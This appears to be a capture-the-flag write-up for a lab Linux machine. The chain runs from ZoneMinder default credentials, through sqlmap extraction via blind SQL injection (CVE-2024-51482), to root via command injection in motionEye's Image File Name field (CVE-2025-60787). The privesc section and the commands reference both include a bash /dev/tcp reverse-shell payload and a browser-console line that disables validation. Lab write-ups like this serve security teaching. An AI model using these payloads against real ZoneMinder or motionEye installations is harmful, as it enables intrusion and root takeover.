





# CCTV

Default credentials on an exposed ZoneMinder console lead to a blind SQL injection (CVE-2024-51482) that dumps a crackable user hash and yields SSH. Root comes from a localhost-bound motionEye instance reached over an SSH tunnel, where a filename field is passed unsanitised to a Motion daemon running as root (CVE-2025-60787).

`linux` `web` `zoneminder` `sqli` `cve-2024-51482` `motioneye` `cve-2025-60787` `ssh-tunneling` `command-injection`

---

## Overview

| Field          | Value                |
| -------------- | -------------------- |
| Machine        | CCTV                 |
| OS             | Linux (Ubuntu 24.04) |
| Difficulty     | Easy                 |
| Release        | 2026-03-07           |
| Starting Creds | None                 |

## TL;DR

- Port 80 serves a CCTV landing page with ZoneMinder v1.37.63 at `/zm/`, accessible with default `admin:admin`
- CVE-2024-51482: the `tid` parameter on ZoneMinder's event tag removal endpoint is concatenated into SQL unsanitised. Time-based blind injection dumps `zm.Users`
- Crack `mark`'s bcrypt hash and SSH in
- `ss -tlnp` shows two services bound to loopback: motionEye on `8765` and the Motion control API on `7999`. SSH local port forward reaches motionEye, whose admin password sits in plaintext in `/etc/motioneye/motion.conf`
- CVE-2025-60787: the Image File Name field is passed to Motion's config without sanitisation. Motion runs as root, so the filename executes as root

## Attack Chain


```mermaid
graph TD
    A[nmap] --> B[ZoneMinder v1.37.63 - admin:admin]
    B --> C[CVE-2024-51482 - blind SQLi on tid]
    C --> D[Dump zm.Users - crack mark bcrypt]
    D --> E[SSH as mark]
    E --> F[ss -tlnp - motionEye 8765 localhost only]
    F --> G[SSH local port forward]
    G --> H[Plaintext admin password in motion.conf]
    H --> I[CVE-2025-60787 - Image File Name injection]
    I --> J[root]
```

## Tools Used

`nmap`, `curl`, `sqlmap`, `ssh`, `netcat`, browser devtools

## Setup / Notes

```bash
echo "10.129.x.x cctv.htb" | sudo tee -a /etc/hosts
```

ZoneMinder session cookies expire quickly. Grab a fresh one immediately before any sqlmap run or every request 401s.

---

## Recon

```bash
nmap -sCV -p- -T4 10.129.x.x -oN cctv_full.txt
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
|_  256 e3:9b:38:08:9a:d7:e9:d1:94:11:ff:50:80:bc:f2:59 (ED25519)
80/tcp open  http    Apache httpd 2.4.58
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecureVision CCTV & Security Solutions
```

Two ports. The page title is flavour text; the real target is ZoneMinder at `/zm/`.

Only SSH and HTTP means the entire foothold has to come out of the web application, and any privesc is likely to involve something not visible from outside. Worth keeping in mind before spending time on the SSH banner.

---

## Enumeration

### ZoneMinder default credentials

`http://cctv.htb/zm/` presents a ZoneMinder login. `admin:admin` works.

```bash
curl -s -c cookies.txt -X POST "http://cctv.htb/zm/index.php" \
  -d "view=login&action=login&username=admin&password=admin" \
  -L -o /dev/null
grep ZMSESSID cookies.txt
```

`-L` is required. ZoneMinder redirects on successful login, and stopping at the redirect hands back a session token for an unauthenticated session that looks valid.

> The login form uses `username` and `password`, not `user` and `pass`. Wrong field names still return a cookie, just an unauthenticated one. Every downstream request then 401s and the failure reads like session expiry rather than a bad login.



The version sits in the top right of the console: `v1.37.63`. That number decides which advisory applies. It is past the CVE-2023-26035 patch boundary at 1.37.33, so unauthenticated RCE is off the table, but it falls inside the CVE-2024-51482 range at or below 1.37.64.

### Internal services (post-foothold)

Recorded here for continuity; discovered after SSH access as `mark`.

```bash
ss -tlnp
```

```
State   Recv-Q  Send-Q  Local Address:Port
LISTEN  0       128     127.0.0.1:7999
LISTEN  0       128     127.0.0.1:8765
LISTEN  0       128     0.0.0.0:22
LISTEN  0       128     0.0.0.0:80
```

- `127.0.0.1:8765` motionEye web frontend
- `127.0.0.1:7999` Motion HTTP control API

Neither appeared in the external scan. Loopback binding is a deliberate exposure decision, and it means the service behind it was almost certainly written assuming only trusted local callers.

---

## Foothold → ZoneMinder blind SQLi (CVE-2024-51482)

### Why it's vulnerable

The advisory ([GHSA-qm8h-3xvf-m7j3](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3)) points at `web/ajax/event.php`, where the `tid` value is taken from `$_REQUEST` and concatenated straight into a SQL query with no parameterisation and no type coercion.

Nothing about the endpoint is exotic. It is an authenticated AJAX handler for removing a tag from an event, which is exactly the kind of small internal route that tends to skip the framework's query builder because it only ever handles an integer. The default credentials are what make it reachable, so the two findings compound: neither is critical alone.

The injection is blind. No query output is reflected in the response, so extraction has to come from a side channel, in this case response timing via `SLEEP()`.

### Extraction

Fresh session first:

```bash
curl -s -c cookies.txt -X POST "http://cctv.htb/zm/index.php" \
  -d "view=login&action=login&username=admin&password=admin" -L -o /dev/null

SESS=$(grep ZMSESSID cookies.txt | awk '{print $NF}')
echo "[*] Session: $SESS"
```

Enumerate usernames before going after anything expensive:

```bash
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' \
  --cookie="ZMSESSID=$SESS" \
  -p tid \
  --dbms=MySQL \
  --technique=T \
  --time-sec=3 \
  --sql-query="SELECT Username FROM zm.Users" \
  --batch --no-cast --threads=3
```

```
[*] retrieved: admin
[*] retrieved: mark
```

`--technique=T` restricts sqlmap to time-based only. Boolean detection misfired against this query structure, and letting sqlmap try everything wastes requests on techniques that will not land. `--no-cast` avoids a CAST wrapper that breaks extraction here.

Now target the one hash that matters:

```bash
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' \
  --cookie="ZMSESSID=$SESS" \
  -p tid \
  --dbms=MySQL \
  --technique=T \
  --time-sec=3 \
  --sql-query="SELECT Password FROM zm.Users WHERE Username='mark'" \
  --batch --threads=3 --no-cast --tamper=between
```

```
Parameter: tid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: tid=1 AND (SELECT 9652 FROM (SELECT(SLEEP(5)))yTcU)

[*] retrieved: $2y$10$<redacted>
```

A bcrypt hash over a time-based channel is roughly a second per character. Enumerating usernames first, then pulling exactly one hash, is the difference between minutes and hours.

Crack the hash offline, then:

```bash
ssh mark@cctv.htb
```

```
mark@cctv:~$ id
uid=1000(mark) gid=1000(mark) groups=1000(mark),24(cdrom),30(dip),46(plugdev)
```

---

## Post-Exploitation

`mark` has no sudo and no docker group.

```bash
ls -la /opt/
```

```
drwx--x--x  4 root root 4096 Mar  2 09:49 containerd
drwxr-xr-x  3 root root 4096 Mar  2 09:49 video
```

```bash
cat /opt/video/backups/server.log
```

```
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success. 2026-03-07 19:33:04
Authorization as sa_mark successful. Command issued: status. Outcome: success. 2026-03-07 19:35:05
```

`sa_mark` authenticates to something and issues `disk-info` and `status`. No path from `mark` to `sa_mark` surfaced, and `/home/sa_mark` is not readable. Noted and set aside.

### SSH tunnel to motionEye

motionEye only listens on loopback, so it cannot be reached directly. A local port forward maps it onto the attack box:

```bash
ssh -N -L 9765:127.0.0.1:8765 mark@cctv.htb
```

`-N` opens no remote shell, since the connection exists only to carry the forward. The tunnel terminates on the target and connects to `127.0.0.1:8765` from the target's perspective, which is why a service bound to loopback is reachable at all.

Browse to `http://127.0.0.1:9765`.

### Plaintext credentials in config

```bash
cat /etc/motioneye/motion.conf
```

```
# @admin_username admin
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @normal_username user
# @normal_password
```

The `@admin_password` value looks like a SHA1 digest and is not one. motionEye stores the password verbatim, so the 40 hex characters are the literal string to type into the login form.



---

## Privilege Escalation → motionEye Image File Name RCE (CVE-2025-60787)

### Why it works

motionEye is a web frontend that writes configuration for the Motion daemon and restarts it. The Image File Name field becomes a filename template in Motion's config, and Motion expands that template through a shell when saving a snapshot ([GHSA-j945-qm58-4gjx](https://github.com/advisories/GHSA-j945-qm58-4gjx)). Shell metacharacters in the field are therefore executed, not stored.

Two things turn that into root. First, the only validation on the field is client-side, running in the browser, on the attacker's machine. Second, Motion runs as root, so the injected command inherits root directly. There is no intermediate account and no second escalation step.

The pattern is worth naming: a value crosses from a configuration UI into a daemon's config file and then into a shell expansion, and the check that was supposed to stop it lives on the wrong side of the trust boundary.

### Steps

**1.** With motionEye open at `http://127.0.0.1:9765`, disable the client-side validator from the browser console:

```javascript
configUiValid = function() { return true; };
```

Overriding the function globally means every field stops being validated, including the one the UI would otherwise reject.

**2.** In the camera settings panel, under **Still Images**:

- **Capture mode:** `Interval Snapshots`
- **Snapshot Interval:** `10`
- **Image File Name:**

```
$(bash -i >& /dev/tcp/10.10.x.x/4444 0>&1).%Y-%m-%d-%H-%M-%S
```

The trailing timestamp pattern keeps the value looking like a filename template so the config still parses.



**3.** Start the listener, then click **Apply**:

```bash
nc -lvnp 4444
```

Motion restarts with the new config and fires on the first snapshot interval.

```
Listening on 0.0.0.0 4444
Connection received on 10.129.x.x 42230
bash: cannot set terminal process group (8226): Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/etc/motioneye# id
uid=0(root) gid=0(root) groups=0(root)
```

The shell lands in `/etc/motioneye`, the daemon's working directory.

```bash
cat /home/sa_mark/user.txt
cat /root/root.txt
```

---

## Rabbit Holes

- **CVE-2023-26035** (ZoneMinder unauthenticated RCE). Patched at 1.37.33; the target runs 1.37.63. Checking the version against the patch boundary before writing an exploit saved the detour.
- **`sa_mark` and `/opt/video/backups/server.log`.** A service account issuing commands to something, with no reachable authentication path from `mark`. Never used.
- **Motion control API on `127.0.0.1:7999`.** Reachable through a second forward, not needed once the motionEye path landed.

---

## Lessons Learned

- **Check form field names before scripting a login.** `username`/`password` against `user`/`pass` still returns a cookie, just an unauthenticated one. Everything downstream then 401s and the failure reads like session expiry rather than a bad login. Confirm the session is authenticated before blaming the exploit.
- **Try a hash-looking string as a literal password first.** motionEye's `@admin_password` is 40 hex characters and is not a digest. Thirty seconds of trying it beats an hour of cracking something that was never hashed.
- **Narrow sqlmap when the channel is slow.** `--technique=T` skips detection methods that misfire on the query structure, and `--no-cast` avoids a wrapper that breaks extraction. Pull usernames first, then one targeted hash. Time-based extraction of a full table is not a plan.
- **Client-side validation lives on the attacker's machine.** One line in the console removes it. Any field validated only in the browser should be treated as unvalidated.
- **`ss -tlnp` on every foothold.** Loopback-bound services are invisible to the external scan and are usually the ones written assuming a trusted caller. That assumption is what an SSH forward breaks.
- **Check what user a daemon runs as before judging an injection.** The same filename injection against a service running as a low-privileged user would have been a lateral step. Against root it is the whole privesc.

---

## Commands Reference

```bash
# Setup
echo "10.129.x.x cctv.htb" | sudo tee -a /etc/hosts

# Recon
nmap -sCV -p- -T4 10.129.x.x -oN cctv_full.txt

# Session
curl -s -c cookies.txt -X POST "http://cctv.htb/zm/index.php" \
  -d "view=login&action=login&username=admin&password=admin" -L -o /dev/null
SESS=$(grep ZMSESSID cookies.txt | awk '{print $NF}')

# Foothold (CVE-2024-51482)
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' \
  --cookie="ZMSESSID=$SESS" -p tid --dbms=MySQL --technique=T --time-sec=3 \
  --sql-query="SELECT Username FROM zm.Users" --batch --no-cast --threads=3

sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' \
  --cookie="ZMSESSID=$SESS" -p tid --dbms=MySQL --technique=T --time-sec=3 \
  --sql-query="SELECT Password FROM zm.Users WHERE Username='mark'" \
  --batch --threads=3 --no-cast --tamper=between

ssh mark@cctv.htb

# Post-ex
ss -tlnp
cat /opt/video/backups/server.log
cat /etc/motioneye/motion.conf
ssh -N -L 9765:127.0.0.1:8765 mark@cctv.htb

# Privesc (CVE-2025-60787)
nc -lvnp 4444
# Browser console: configUiValid = function() { return true; };
# Image File Name: $(bash -i >& /dev/tcp/10.10.x.x/4444 0>&1).%Y-%m-%d-%H-%M-%S
```

---

## References

- [CVE-2024-51482, ZoneMinder blind SQLi (GHSA-qm8h-3xvf-m7j3)](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3)
- [BwithE/CVE-2024-51482 PoC](https://github.com/BwithE/CVE-2024-51482)
- [CVE-2025-60787, motionEye Image File Name RCE (GHSA-j945-qm58-4gjx)](https://github.com/advisories/GHSA-j945-qm58-4gjx)
- [ZoneMinder GitHub](https://github.com/ZoneMinder/zoneminder)
- [motionEye GitHub](https://github.com/motioneye-project/motioneye)
